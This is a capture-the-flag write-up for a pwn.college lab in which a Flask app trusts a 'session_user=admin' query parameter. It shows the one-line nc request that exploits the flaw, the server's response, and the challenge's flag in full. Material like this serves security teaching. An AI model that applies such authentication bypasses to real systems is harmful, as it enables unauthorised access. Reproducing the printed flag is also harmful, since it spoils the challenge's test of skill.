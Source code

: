 # Authentication Bypass 1 — Writeup

## 🧠 Challenge Overview

This challenge provides a Flask-based login system backed by a temporary SQLite database. The goal is to **log in as the `admin` user** and retrieve the flag.

The login form is handled by a `/` POST route that validates credentials against a temporary SQLite database. The database is initialized with:
- an `admin` user with a **random password**
- a `guest` user with password `"password"`

The main logic of concern:
```python
user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
```

---

## Vulnerability

There is no SQL injection, as the query is parameterized.

However, there's a critical GET-based bypass:

In the GET route:

```
@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.request.args.get("session_user", None)):
        ...
    else:
        ...
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()
```
The page checks for ?session_user=admin in the GET request, and does not validate if the user has logged in.

So simply accessing:
http://challenge.localhost/?session_user=admin
will give us the flag directly without authentication!

---

## Exploit
```bash
hacker@web-security~authentication-bypass-1:~$ printf 'GET /?session_user=admin HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n' | nc challenge.localhost 80
```
###Output:
```bash
HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Sun, 20 Jul 2025 06:58:33 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 305
Connection: close

<html><body>Hello, admin!<br>Here is your flag: pwn.college{gxy6127uLKDuVTho5_zxjRrNvrl.QX5gzMzwSM0IzMyEzW}
...
```

---
## Flag
```bash
pwn.college{gxy6127uLKDuVTho5_zxjRrNvrl.QX5gzMzwSM0IzMyEzW}
```
---
